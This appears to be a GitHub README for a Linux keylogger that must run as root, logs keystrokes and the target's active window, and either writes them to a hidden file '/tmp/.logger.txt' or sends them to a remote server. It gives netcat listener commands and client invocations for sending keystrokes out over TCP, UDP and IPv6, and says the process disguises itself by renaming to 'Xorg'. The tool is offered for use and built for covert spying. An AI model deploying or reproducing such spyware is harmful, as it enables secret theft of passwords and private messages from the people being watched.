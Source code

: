# Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE:<br><br>
---It works with both TCP and UDP---<br><br>
[TCP]<br>
Server$ nc -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
[UDP]
Server$ nc -u -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
---It works with ipv6 too--- <br><br>
Server$ nc -6 -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a ::1 -p 8888
__________________________________________________________________________
<br>(It shows the active window on which the target is writing)
<br>(Keys are mapped on English keyboard)<br>
(Process name is renamed as "Xorg")
